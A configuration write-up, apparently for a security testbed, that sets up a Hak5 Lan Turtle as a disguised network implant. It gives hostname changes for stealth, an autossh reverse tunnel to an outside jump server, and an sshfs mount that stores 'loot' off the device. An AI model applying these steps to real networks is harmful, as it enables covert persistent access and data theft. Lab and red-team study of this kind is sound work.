


Lan Turtle
Contents
Lan Turtle#
To represent a physical implant that provides persistent remote access, we selected the Lan Turtle by Hak5. This device is designed to look like a USB Ethernet adapter (or a USB-to-Ethernet KVM) but is really an embedded Linux system that can provide a number of simple capabilities. The unit we had also contained the 3G modem, but we elected not to use it for this setup.
Configuration#
In theory, updating the device to the latest firmware should be easy and straight-forward. It isn’t… at least not for me, and a number of others who (helpfully) posted their struggles online.
You should be able to use the turtle command, enter the configuration menu, check for updates, apply, reboot, and be golden. The problem I faced, however, was that when I did this, I ended up with a device that would no longer pull modules, check for updates, anything.
After much debugging and gnashing of teeth, it became clear that the issue was that the date/time on the device was out of sync, and therefore SSL validation would fail. Some suggested simply disabling SSL cert validation, but this seems unwise on a security-focused device. Making things further frustrating, I learned that AT&T blocks NTP packets due to network threats, so the configured-by-default NTP client on the turtle fails to obtain an updated time value.
What I ended up figuring out, is as follows:
# ssh into the turtle, exit the configuration utility
# and end up at the shell
# update the software listing
$ opkg update
# install a non-NTP-based time update utility
$ opkg install htpdate
# force the time to be updated (using the webserver at 1.1.1.1;
# could be really any valid site)
$ htpdate -s 1.1.1.1
Once this is done, it is not a bad idea to add this last command (htpdate -s 1.1.1.1) into /etc/rc.local so it gets executed on each system start.
Warning
It might make most sense to change this to daemon mode so it runs all the time
```
htpdate -D 1.1.1.1
```
After following all of these steps, I was able to successfully update the device to firmware version 6.2-stable. For reference, additional firmware files and details are available here: https://downloads.hak5.org/turtle.
Another general configuration step to assist with the stealthy-ness of the activities, is to edit /etc/config/system and change the hostname to something other than turtle. Making it something less obvious may help hide it longer (e.g. usbeth0).
Additionally, I deployed the ssh public key from my attacker machine to the turtle to make subsequent logins easier.
ssh-copy-id -i ~/.ssh/id_rsa.pub root@172.16.84.1
The next configuration activities included installing and configuring the modules.
Modules#
From within the turtle shell, you can choose Modules and then select the modulemanager module. The start and enable functions do not really apply for this module, but Configure does. From the configuration manager, you choose to update the directory, agree to connect to lanturtle.com and then browse/select the modules you’d like to install. For this instance, I chose to keep things simple and just installed the following: autossh, keymanager, and sshfs. Once these have been installed, you can step back a few screens to the main Modules window where you will see and be able to configure the installed modules.
KeyManager#
This module is another that you simply configure, and the only thing I needed to do here was the generate_key command. This is just a UI-wrapper on ssh-keygen. Once this is done, I needed to transfer the public key (/.ssh/id_rsa.pub) to the account on the cloud-hosted jump server.
Note
On the jump server, I had previously configured an account (turtle) that would be used by this device. Additionally, if the jump server allowed password-based SSH connections, the KeyManager module would have allowed me to deploy my key directly. However, since I am only allowing keys, I have to shuffle it through another account and cannot use the automated scripts.
AutoSSH#
The autossh module maintains persistent SSH shells to another server and can forward local ports to the remote server for the purpose of enabling reverse tunnling through the established shell. This is a more normal module, so we begin by configuring it:
user@host:
turtle@george.bitpredator.comPort:
22Remote Port:
2222Local Port:
22
The last two lines expose port 22 on the turtle’s local network interface to port 2222 on the host it is going to tunnel to (in this case, george.bitpredator.com). We submit these settings and then select enable to have it start each time the device boots up, and finally we click start to get it up and running.
Warning
In prior versions, the instructions up to this point would have worked just fine. However, the last start command now fails because my jump server host is not in the known_hosts file. In an effort to be maybe a little too smart, this is now bundled into the copy_key configuration option of the keymanager module, which won’t work for me because of my password-less restriction on the jump server. I simply exited to the shell, manually established an SSH connection to my jump server which caused bash to prompt me to update authorized_keys. This being done (and confirming that the connection worked), I was able to return to the turtle shell (turtle) and start this module.
SSHFS#
The last module to configure is sshfs. This simply mounts a remote file system as if it were local. In this case, it allows us to expand the rather meager storage of the turtle to whatever amount of disk is available in my jump server. The configuration of this module is rather simple:
Host:
george.bitpredator.comPort:
22User:
turtlePath:
/home/turtle
This will map the local /sshfs directory on the turtle to the /home/turtle directory on the jump server. Now we submit the configuration, enable it, and then start it.
Deployment#
In the testbed, the turtle is plugged into a USB port on Lap01 for the purposes of providing power. It could theoretically also provide some MITM capabilities for this machine, but we are not using them. The ethernet jack is connected directly to the primary switch and it serves as a remotely-accesible beachhead.


Use#
With the device configured and deployed into the test bed, it will provide me a remotely-accessible shell any time I need it. The following demonstrates its use:
# Connect from my attacker machine to my jump server
$ ssh root@george.bitpredator.com
# copy my local ssh key (on jump server) to turtle
$ ssh-copy-id -i .ssh/id_rsa.pub root@localhost -p 2222
# Connect via the reverse ssh tunnel into the turtle/target env
$ ssh root@localhost -p 2222
# write files to turtle's "local" storage, remapped to jump server
$ touch /sshfs/bubb02
Tip
One key feature of using sshfs on the turtle as the storage location for “loot”, is that if the device happens to be found and/ore disconnected by a local user/network admin, anything that you had gathered will not actually reside on the turtle, but instead on the drive of the jump server which remains in your control